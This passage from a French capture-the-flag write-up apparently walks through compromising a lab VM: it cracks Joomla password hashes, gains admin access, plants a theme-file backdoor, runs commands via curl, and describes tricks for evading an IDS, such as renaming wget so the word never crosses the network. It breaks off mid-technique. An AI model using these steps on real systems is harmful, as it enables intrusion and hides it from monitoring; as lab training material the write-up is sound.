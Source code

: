 ```
admin:$dynamic_1$8dce0c268a72ec988999cb5a59fadd35$K30ubzQvaQaHbs0peZrM78GBMWbe5KQb:::::::
gizmo:$dynamic_1$6da55fdfcf53a4b3a07390921866cc18$qECsCP9t5NwPILY77j6hGM2MrgX4Je39:::::::
```

Casser le password de `gizmo` est instantané :

```
Loaded 2 password hashes with 2 different salts (dynamic_1 [md5($p.$s) (joomla) 128/128 AVX 4x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
sillyboy         (gizmo)
```

## FUKU

Les identifiants permettent donc un accès admin sur le Joomla! via le path `/administrator`.

La procédure pour ajouter du code consiste à modifier un fichier de thème et est décrite dans le writeup pour le [CTF Rosee de Wizard Labs](https://github.com/devl00p/blog/blob/main/ctf_writeups/Solution%20du%20CTF%20Rosee%20de%20Wizard%20Labs.md).

Quand j'ai voulu ajouter une backdoor appelant `system()` ma requête HTTP a été bloquée et les communications avec la VM aussi.

Il doit y avoir un IDS qui a détecté le payload.

J'ai à la place ajouté le code plus générique utilisé par exemple sur le [CTF Underdist #3](https://github.com/devl00p/blog/blob/main/ctf_writeups/Solution%20du%20CTF%20Underdist%20%233%20de%20VulnHub.md#you-got-mail).

Je peux alors exécuter des commandes de cette façon :

```shellsession
$ curl -s http://192.168.56.94:13370/ --data "&f=system&a=lsb_release -a" | head -5
Distributor ID: Ubuntu
Description:    Ubuntu 15.04
Release:        15.04
Codename:       vivid
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
```

Je remarque aussique certaines commandes semblent remplacées. Par exemple un `which wget` retourne le message suivant :

> haha! FUKU! Only root can run that command.

On peut obtenir le résultat que l'on souhaite avec un `whereis wget` :

> wget: /usr/bin/wget /usr/share/man/man1/wget.1.gz

De la même façon au lieu de faire `uname -a` pour connaître l'architecture de la VM on peut faire un `file /bin/ps` :

> /bin/ps: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.32, BuildID[sha1]=3ef3cd330ed989bd19a2d307d4792deff6f4abe5, stripped

Et si on a peur d'être bloqué par l'IDS en faisant transiter le mot `wget` sur le réseau on peut copier l'exécutable sur un autre nom via un wildcard puis utiliser la copie :
